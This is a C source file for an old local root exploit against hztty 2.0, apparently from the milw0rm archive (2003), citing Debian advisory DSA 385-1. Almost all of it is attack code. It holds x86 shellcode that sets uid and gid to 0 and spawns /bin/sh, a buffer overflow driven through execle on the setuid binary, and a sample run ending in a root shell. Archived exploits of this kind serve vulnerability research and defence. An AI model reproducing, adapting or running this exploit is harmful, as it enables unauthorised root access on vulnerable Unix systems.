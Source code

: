 EXP
---

    /*  0x333hztty => hztty 2.0 local root exploit
     *
     *
     *  more info : Debian Security Advisory DSA 385-1
     *
     *  *note* I adjusted some part of hztty's code since
     *  there were some errors. hope this will not influence
     *  exploitation :> tested against Red Hat 9.0 :
     *
     * [c0wboy@0x333 c0wboy]$ gcc 0x333hztty.c -o k
     * [c0wboy@0x333 c0wboy]$ ./k
     *
     *  ---  local root exploit for hztty 2.0  ---
     *  ---  coded by c0wboy ~ 0x33  ---
     *
     * sh-2.05b# [./hztty started]  [using /dev/ttyp6]
     * sh-2.05b$ sh-2.05b# uid=0(root) gid=0(root) groups=500(c0wboy)
     * sh-2.05b#
     *
     *  coded by c0wboy
     *
     *  (c) 0x333 Outsiders Security Labs
     *
     */

    #include <stdio.h>
    #include <unistd.h>

    #define BIN    "./hztty"
    #define SIZE   272


    unsigned char shellcode[] =
        "\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8"
        "\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68"
        "\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
        "\xd2\xb0\x0b\xcd\x80" ;

    int main()
    {
        int i;
        char out[SIZE];
        char *own[] = { shellcode, 0x0 };

        int *hztty = (int *)(out);
        int ret = 0xbffffffa - strlen(BIN) - strlen(shellcode);

        for (i=0 ; i<SIZE-1 ; i+=4)
            *hztty++ = ret;

        hztty = 0x0;

        fprintf (stdout, "\n ---  local root exploit for hztty 2.0  ---\n");
        fprintf (stdout, " ---  coded by c0wboy ~ www.0x333.org   ---\n\n");

        execle (BIN, BIN, "-I", out, 0x0, own, 0x0);
    }


    // milw0rm.com [2003-09-21]
